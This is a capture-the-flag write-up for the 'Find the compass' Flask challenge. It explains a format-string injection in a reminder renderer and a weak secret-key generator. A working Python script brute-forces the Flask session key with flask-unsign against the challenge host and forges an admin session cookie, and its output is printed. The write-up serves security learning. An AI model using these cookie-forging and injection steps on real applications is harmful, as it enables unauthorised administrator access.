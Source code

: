 # Find the compass

![head](images/head.png)

By looking at the source, we can see mutiple interesting things :

In : find_the_compass/lib/remindersRenderer.py
```python
class Renderer(object):
    """
    Proof of Concept to one day get rid of Jinja2. Who needs Jinja2 ?
    """
    def __init__(self, coordinates: str):
        # Only a wise administrator can retrieve the coordinates of the compass.
        self.coordinates = coordinates

    def render(self, author, content):
        author = escape(author)
        content = escape(content)
        htmlTemplate = f"<p><strong>{author}</strong>: {content}</p>"
        try:
            #Use escape for XSS protection
            return (htmlTemplate.format(self=self))
        except Exception as e:
            print(e)
            return "An error occured while rendering the reminder."
```

The above code seems to be vulnerable because we could inject someting like `{self.coordinate}` to get this variable. Unfortunately, we need to be authenticated to perform that.

In : find_the_compass/lib/utils.py
```python
def generate_key() -> str:
    """Generate a random key for the Flask secret (I love Python!)"""
    return (''.join([str(x) for x in [(int(x) ^ (int(time()) % 2 ^ randint(0, 2))) for x in [int(char) for char in str(digits[randint(0, 9)]) * 4]]])).rjust(8, '0')
```

The above function is used to generate the flask secret key. Let's decompose it.

First, `[int(char) for char in str(digits[randint(0, 9)]) * 4]` generates a list with 4 time the same number, like `[4, 4, 4, 4]`, which means:

```python
def generate_key() -> str:
    """Generate a random key for the Flask secret (I love Python!)"""
    return (''.join([str(x) for x in [(int(x) ^ (int(time()) % 2 ^ randint(0, 2))) for x in four_time_same()]])).rjust(8, '0')
```

The each number (that are the same) as operated with `(int(x) ^ (int(time()) % 2 ^ randint(0, 2)))` which means `x ^ (0 or 1) ^ (0, 1 or 2)`. By calculating all possibilities, we can find out that :

```python
>>> 0^0
0
>>> 0^1
1
>>> 0^2
2
>>> 1^0
1
>>> 1^2
3
>>> 1^3
2
```

So we have `x ^ (0, 1, 2 or 3)`

The function ends by transforming these numbers in string and adding 0 at the start to create a 8 chars string.

It's easy to generate all posibilities : 

```python
possible = [0, 1, 2, 3]
l = []
for i in range(10): # four time the same number
    for w in possible: # test all posibilites for each numbers
        for x in possible:
            for y in possible:
                for z in possible:
                    eq = f"{i^w}{i^x}{i^y}{i^z}".rjust(8, '0')
                    if not eq in l: # its possible that 2 equation generate the same key
                        l.append(eq)

print(f"Total : {len(l)}")
```

This gives us a total of 768 possibilities, that's way to much to bruteforce it in remote.

Fortunately, we can see that a session cookie is generated evn if we aren't connected : `.eJwNzMENwyAMAMBd_M4DjAGTZSIHbFQpIg_IK-ru7Q1wL1x379qOz4Dd5Jq6wbhHVdhBkDVqdMhJqZwpK9USPDfLGFwjJznlahHZs7iGgahotOCrQzmLwQZzyXrm_-qPzgXfH0y8IOA.ZeR8GQ.vi26B3Qn0X6VralO6kBbQmcyeKA`

Let's try to bruteforce the key using [flask-unsign](https://github.com/Paradoxis/Flask-Unsign).


```python
from os import popen
from requests import get
possible = [0, 1, 2, 3]
l = []
for i in range(10):
    for w in possible:
        for x in possible:
            for y in possible:
                for z in possible:
                    eq = f"{i^w}{i^x}{i^y}{i^z}".rjust(8, '0')
                    if not eq in l:
                        l.append(eq)
                        #print(eq)

print(f"Total : {len(l)}")

f = open("brt.txt", 'w')    
f.write("\n".join(l))
f.close()

print("Bruteforcing")
token = get("http://worker01.gcc-ctf.com:13229/logout").cookies["session"]
command = f'flask-unsign --wordlist brt.txt --unsign --cookie "{token}" --no-literal-eval'
print(command)

res = popen(command).read()
print(res)

print("Forging token")

secret_key = res.replace("'\n", "").replace("b'", "")

print(f"Secret key : {secret_key}")

command = f"flask-unsign --sign --cookie \"{{'username':'admin', 'status':'admin', 'logged_in':True}}\" --secret \"{secret_key}\""
print(command)
print(popen(command).read())
```

```
Total : 768
Bruteforcing
flask-unsign --wordlist brt.txt --unsign --cookie ".eJwNzMENwyAMAMBd_M4D44BNlqmIbVCliDwgr6q7tzfAfeC6e3d7vQccrV7TNxj3UIcDaizJOO9nFEFkwV2LJifLHGJN0ohRm0pVOUkCRpRMzMGoSJNgsMFcdT3zf_XH54LvDzX5IF0.ZeR86g.BOkmjDiAxSssa63D-g3H4MCs650" --no-literal-eval
[*] Session decodes to: {'logged_in': False, 'nonce': 'a295d764b288117814c9c5e3d6702a58f371cfc8ac8b380121863770d398f80d', 'status': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 256 attempts
b'00003303'

Forging token
Secret key : 00003303
flask-unsign --sign --cookie "{'username':'admin', 'status':'admin', 'logged_in':True}" --secret "00003303"
.eJyrViotTi3KS8xNVbJSSkzJzcxT0lEqLkksKS1GEsjJT09PTYkHsq1KikpTawH_xRLR.ZeR86w.DJLFiPs3jCWCgGO_M0v5BvO8qsE
```

Now that we have the token, it's possible to replace the old one ans refresh the page.

If we create the reminder `{self.coordinates}`, the flag appears.

[screen](images/screen1.png)

Thals for the challenge !
